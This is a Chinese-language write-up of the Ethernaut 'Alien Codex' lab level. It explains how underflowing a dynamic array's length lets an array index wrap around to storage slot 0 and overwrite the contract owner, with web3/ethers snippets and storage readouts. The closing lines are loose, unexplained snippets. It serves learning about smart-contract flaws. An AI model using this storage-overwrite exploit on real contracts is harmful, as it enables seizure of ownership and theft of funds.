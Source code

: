 You've uncovered an Alien contract. Claim ownership to complete the level.

 Things that might help

- Understanding how array storage works
- Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
- Using a very `underhanded` approach

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }

  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```







参考链接1https://cyanwingsbird.blog/solidity/ethernaut/19-alien-codex/

参考链接2https://ethereum.stackexchange.com/a/113907





这个puzzle还是考察合约的slot分布的，可以稍微参考Hack Solidity中的4.Accessing Private Data

```solidity
abstract contract Ownable is Context {
    address private _owner;
}
```

因为继承了[Ownable](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol)，所以AlienCodex中 slot 0 就是 _owner，因为address是20个字节，不足32个字节，所以contact也存在 slot 0 上

```javascript
await web3.eth.getStorageAt(instance, 0 )
// 0x0000000000000000000000003c34a342b2af5e885fcaa3800db5b205fefa3ffb
```

先使用api查看一下 slot 0，可以看到3c前边的一个字节是00，当我们调用 **contract.make_contact()** 使contac这个布尔值变为true之后，再用api查看 slot 0

```js
await web3.eth.getStorageAt(instance, 0 )
// 0x0000000000000000000000013c34a342b2af5e885fcaa3800db5b205fefa3ffb
```

可以看到3c前边那个字节已经变成01了，所以从侧面就证明了contact和_owner都存于 slot 0 上

```js
await web3.eth.getStorageAt(instance, 1 )
// 0x0000000000000000000000000000000000000000000000000000000000000000
```

再用api查看 slot 1，根据官方文档的[Mappings and Dynamic Arrays](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html#mappings-and-dynamic-arrays)，动态数组的长度即本puzzle中的codex数组的长度存在 slot 1 上，其中每个item存在 **slot ( keccak256(1) + i )**上，此时，可以看到，因为是空数组长度为0，所以返回值也为0

调用 **contract.retract()** 使数组长度发生underflow

```js
await web3.eth.getStorageAt(instance, 1 )
// 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```

使用api看到数组的长度发生了underflow，此时的值为2^256 - 1

```erlang
p = keccak256(slot)
or, p = keccak256(1)


Slot        Data
------------------------------
0             owner address, contact bool
1             codex.length
    .
    .
    .
p             codex[0]
p + 1         codex[1]
    .
    .
2^256 - 2     codex[2^256 - 2 - p]
2^256 - 1     codex[2^256 - 1 - p]
0             codex[2^256 - p]  (overflow!)
```

根据**SLOAD**的定义：`key`: 32-byte key in storage，可以知道一个contract中有2^256个slot，序号为 0 - 2^256 - 1

当slot的index值达到2^256的时候会发生overflow，即wrap around回0，codex数组位于slot p，其中p的值为keccak256(1)，将slot 0看作是codex的第**i**个元素，那么给codex[i]赋值就相当于给_owner赋值，所以我们此时只需要找出来能够发生overflow时**i**的值就可以了，公式如下：

keccak256(1) + i = 2^256

这里第一个需要注意的地方：solidity中使用的keccak256中所要传递的参数需要pack，所以和普通的keccak256有一些不一样，web3js中有两个api，一个[sha3](https://web3js.readthedocs.io/en/v1.8.0/web3-utils.html#sha3)，一个[soliditySha3](https://web3js.readthedocs.io/en/v1.8.0/web3-utils.html#soliditysha3)，ethers中有两个api，一个[keccak256](https://docs.ethers.io/v5/single-page/#/v5/api/utils/hashing/-%23-utils-keccak256)，一个[solidityKeccak256](https://docs.ethers.io/v5/single-page/#/v5/api/utils/hashing/-%23-utils-solidityKeccak256)，注意它们的区别，在js中使用solidity版本的

```js
// ×
web3.utils.keccak256("1")
// √
web3.utils.soliditySha3({type: 'uint', value: '1'})
web3.utils.soliditySha3(1)  // 简化写法
// √
ethers.utils.solidityKeccak256([ "uint" ], [1])
```

第二个需要注意的地方：在js中，因为都是32个字节的数字，非常大，所以需要用BigInt包裹，所以在JavaScript中的计算方法如下

```js
BigInt(2**256) - BigInt(web3.utils.soliditySha3(1))
```

此时我们已经确定了i的值，



  







hexdecimal increasing:   (BigInt(hash) + 1n).toString(16)





web3.eth.getStorageAt("", web3.utils.soliditySha3({type: 'uint', value: '1'}) )



web3.utils.toAscii("0x6162630000000000000000000000000000000000000000000000000000000000")



BigInt(2**256) - BigInt(hash)



ethers.utils.hexZeroPad(player, 32)

web3.utils.padLeft(player, 64);
